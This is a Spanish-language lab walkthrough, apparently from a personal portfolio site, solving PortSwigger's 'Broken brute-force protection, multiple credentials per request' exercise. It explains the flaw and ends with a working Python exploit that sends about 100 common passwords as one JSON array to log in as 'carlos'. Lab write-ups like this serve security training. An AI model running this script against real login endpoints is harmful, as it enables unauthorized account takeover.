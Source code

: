 ```yaml
---
title: "13 Broken brute-force protection, multiple credentials per request"
collection: publications
category: portswigger
permalink: publications/Authentication/13_Broken brute-force protection, multiple credentials per request
excerpt: 'Este laboratorio es vulnerable debido a un fallo lógico en su protección de fuerza bruta. Para resolverlo, fuerza bruta la contraseña de Carlos y accede a la página de su cuenta.'
date: 2024-12-06
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Broken brute-force protection, multiple credentials per request'
---
```


![logo]({{site.url}}/images/Authentication/authentication-lab-13/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/Authentication/authentication-lab-13/descripcion.png)

## Objetivo del laboratorio

 Para resolverlo, fuerza bruta la contraseña de Carlos y accede a la página de su cuenta.

## Analisis

Realizamos un login con el usuario carlos y vemos que la solicitud se envia en formato `JSON`.

![JSON]({{site.url}}/images/Authentication/authentication-lab-13/json.png)

Probemos enviando un `Array` con posibles contraseñas, a ver si nos bloquea.

![Array]({{site.url}}/images/Authentication/authentication-lab-13/array.png)

## Formato JSON

Para que la lista sea valida debemos colocarle las comillas y separarlo por comas, para eso tenemos un script en python que nos va a hacer el trabajo.

![Script]({{site.url}}/images/Authentication/authentication-lab-13/script.png)

Cogemos ese arreglo y lo insertamos en la petición

![Respuesta]({{site.url}}/images/Authentication/authentication-lab-13/respuesta.png)

Cogemos la cookie que nos arrojo la copiamos y la pegamos en el navegador para poder loguearnos. Recargamos la pagina y vemos que hemos logueado el usuario `carlos`.

![Cookie]({{site.url}}/images/Authentication/authentication-lab-13/cookie.png)

# Codigo Python

```python
import requests
import sys
import urllib3
import json

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def access_carlos_account(s, url):

    print("(+) Exploiting vulnerability....")
    login_url = url + "/login"
    payload = {"username": "carlos", "password": ["123456","password","12345678","qwerty","123456789","12345","1234","111111","1234567","dragon","123123","baseball","abc123","football","monkey","letmein","shadow","master","666666","qwertyuiop","123321","mustang","1234567890","michael","654321","superman","1qaz2wsx","7777777","121212","000000","qazwsx","123qwe","killer","trustno1","jordan","jennifer","zxcvbnm","asdfgh","hunter","buster","soccer","harley","batman","andrew","tigger","sunshine","iloveyou","2000","charlie","robert","thomas","hockey","ranger","daniel","starwars","klaster","112233","george","computer","michelle","jessica","pepper","1111","zxcvbn","555555","11111111","131313","freedom","777777","pass","maggie","159753","aaaaaa","ginger","princess","joshua","cheese","amanda","summer","love","ashley","nicole","chelsea","biteme","matthew","access","yankees","987654321","dallas","austin","thunder","taylor","matrix","mobilemail","mom","monitor","monitoring","montana","moon","moscow","random"]}

    headers = {"Content-Type": "application/json"}

    r = s.post(login_url, json=payload, headers=headers, verify=False, proxies=proxies)

    if "Log out" in r.text:
        print("(+) Successfully accessed Carlos's account.")
    else:
        print("(-) Could not login to Carlos's account")
        sys.exit(-1)


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <url>" % sys.argv[0])
        print("(+) Example: %s www.example.com" % sys.argv[0])
        sys.exit(-1)

    s = requests.Session()
    url = sys.argv[1]
    access_carlos_account(s, url)

if __name__ == "__main__":
    main()
```
